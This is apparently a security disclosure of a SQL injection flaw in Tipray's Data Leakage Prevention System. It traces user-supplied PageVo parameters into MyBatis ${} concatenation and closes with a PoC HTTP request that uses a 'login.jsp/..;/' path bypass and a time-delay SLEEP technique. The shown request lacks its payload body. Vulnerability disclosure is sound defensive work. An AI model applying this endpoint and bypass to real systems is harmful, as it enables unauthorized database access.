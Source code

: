 # SQL Injection Vulnerability in the findUserPage.do Interface of Tipray Data Leakage Prevention System

## 1. Basic Information
Tipray Data Leakage Prevention System is an intelligent approval platform focusing on enterprise data security and compliance management. It deeply integrates document encryption, permission control, and process automation, providing enterprises with full-lifecycle security management and control for files from creation and circulation to archiving.

The official website of the company developing this system is https://www.tipray.com/index.php


## 2. Vulnerability Analysis
### 2.1 Sink Point Identification
We identified a sink point in the `com.trwfe.controller.UserController#findUserPage` method. As analyzed in previous reports, the `PageVo` class used here is insecure, and its parameters are **user-controllable** (external users can manipulate the parameter values freely).

<img width="1580" height="435" alt="image" src="https://github.com/user-attachments/assets/212c9f58-a7f3-49fa-a2c4-b6abe2eadcea" />


### 2.2 Tracing the `findAllUserPage` Method
To further confirm the vulnerability chain, we traced the `findAllUserPage` method invoked at the sink point. This method directly uses the parameters of `PageVo` without implementing effective filtering or sanitization measures, which paves the way for subsequent SQL injection.

<img width="2095" height="1126" alt="image" src="https://github.com/user-attachments/assets/fba97bce-f722-4fd6-a0e8-4ba87c4a2bf8" />


### 2.3 Mapper Layer Verification
We continued to track the data flow down to the **mapper layer** (the component responsible for interacting with the database). It was discovered that the user-controllable parameters from `PageVo` are directly concatenated into SQL statements using the `${}` syntax—instead of MyBatis’ secure `#{} `syntax for parameter binding. This direct concatenation is the root cause of the SQL injection vulnerability.

<img width="1983" height="695" alt="image" src="https://github.com/user-attachments/assets/049ec0c3-3539-47f7-bd4f-c2654ad76d66" />


## 3. Proof of Concept (PoC)
Based on the above analysis, we constructed the following HTTP request as a PoC to verify the SQL injection vulnerability. This PoC leverages **time-delay injection** (via the `SLEEP(4)` function): if the request returns after a 4-second delay, the existence of the vulnerability is confirmed.

```http
POST http://ip/trwfe/login.jsp/..;/user/findUserPage.do HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 15_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: JSESSIONID=BBE157F1DBA868496A6CB76724EA3D28
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 51

```